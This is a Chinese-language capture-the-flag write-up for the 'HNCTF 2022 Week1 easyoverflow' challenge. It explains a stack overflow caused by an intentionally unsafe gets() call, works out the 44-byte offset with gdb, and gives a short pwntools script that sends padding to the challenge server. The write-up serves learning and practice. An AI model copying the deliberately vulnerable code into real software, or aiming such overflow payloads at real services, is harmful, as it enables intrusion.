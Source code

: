 # [HNCTF 2022 Week1]easyoverflow

## 基本信息

- 题目链接:https://www.nssctf.cn/problem/2941

- 考点清单:栈溢出、ret2text

- 工具清单:gdb


## 一、看到什么

- 两个文件:

    - easy_overflow.c:

    ```c
    #include<stdio.h>
    int main()
    {
    setbuf(stdin,0);
    setbuf(stdout,0);
    setbuf(stderr,0);
    puts("Input something");
    char name[30];
    int number=0;   //number的值存在栈中
    gets(name);     //gets函数不会对输入的长度进行限制
    if(number!=0){
        puts("You win.");
        system("cat flag"); //flag在此
    }
    return 0;
    }
    ```

   `栈溢出条件`：`gets()`不会对输入长度进行限制，哪怕超过了预分配给`name`的空间(30字节)

   `解题核心`:需要执行`if`语句内的`system`函数

    - easy_overflow:可执行程序，可用于`动态或者静态调试`

## 二、想到什么解题思路

- 修改`number`的值:执行`if`语句内的代码的唯一方式，就是让`number`不为`0`，想到找到`number`在栈中的`存储位置`即可

- 使用gdb静态调试,判断需要溢出的位置,编写`exp`将参数传到`远程环境`

## 三、尝试过程与结果记录

1. 简单了解一下文件信息

```sh
file easy_overflow
```

文件是`64位`的

![](./images/HNCTF_2022_Week1easyoverflow-file.png)

2. 查看汇编代码(使用`gdb`)

```sh
gdb easy_overflow

set disassembly-flavor intel #将反汇编代码的显示风格设置为 Intel 风格(默认为 AT&T 风格)

disassemble main #查看主函数汇编
```

![](./images/HNCTF_2022_Week1easyoverflow-disassemble_main.png)

也就是说`number`存的值在`rbp指向地址-0x04`位置,相对于`rsp`的相对位置为`rsp指向地址+(0x30-0x04)`就是`rsp指向地址+0x2C(44字节)`，参考以下图示

![](./images/HNCTF_2022_Week1easyoverflow-stack_status.png)

因为`gets()`函数写入顺序是从`低地址到高地址`(rsp指向地址-->rbp指向地址方向),所以输入`0x2C(44字节)`的任意字符加任意8字节以内的(由于是64位)字符即可替换`number`值

3. 尝试写脚本

我这里输入了46个`A`，这样覆盖了number原有的值(0x00000000)为(0x00004141)

```py
from pwn import *
n = remote('node5.anna.nssctf.cn',27149)    #远程连接
payload=46*'A' 
n.sendline(payload) #发送payload至远程服务器
n.interactive()
```

## 四、总结

1. 对于汇编代码基本语句要敏感如:`sub(经常用于给数组腾空间)`、`cmp(常对应if语句)`、`call(调用函数)`

2. 了解常用寄存器`rbp/ebp`、`rsp/esp`、`eip/rip`功能

3. `rsp与变量`以及`rbp与变量`的偏移地址决定`payload`的结构与长度

